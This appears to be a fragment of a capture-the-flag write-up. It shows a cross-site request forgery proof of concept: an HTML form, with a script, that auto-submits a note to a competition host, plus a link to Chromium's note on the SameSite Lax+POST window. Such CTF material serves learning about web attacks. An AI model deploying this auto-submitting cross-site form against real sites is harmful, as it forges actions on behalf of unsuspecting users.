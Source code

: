 ```
<form action="http://ghost-note.hammer.b01le.rs/" method="POST" id="send" class="card" name="flagform">
<textarea name="note" id="waw" placeholder="Note"></textarea>
<input type="submit" value="Create">
</form><script>if (location.pathname === "/UwU") {document.getElementById("waw").value="test";document.flagform.submit()}</script>
```

https://www.chromium.org/updates/same-site/faq/#q-what-is-the-lax-post-mitigation